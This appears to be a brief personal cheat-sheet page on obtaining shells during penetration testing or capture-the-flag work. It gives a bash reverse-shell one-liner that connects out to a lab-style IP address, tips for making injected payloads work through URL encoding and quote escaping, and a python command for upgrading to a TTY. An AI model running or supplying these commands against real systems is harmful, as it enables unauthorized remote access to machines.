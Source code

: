 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 



## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the reverse shell doesn't work, why ?? 

> if it is a bash reverse shell (e.g. `bash -i >& /dev/tcp/10.10.16.3/1234 0>&1`) precede it with `bash -c` 

> try URL encoding

> qoutes conflict, how to deal with it ?? 
    * embrace the whole payload with double qoutes, then escape the inside ones
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```





# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'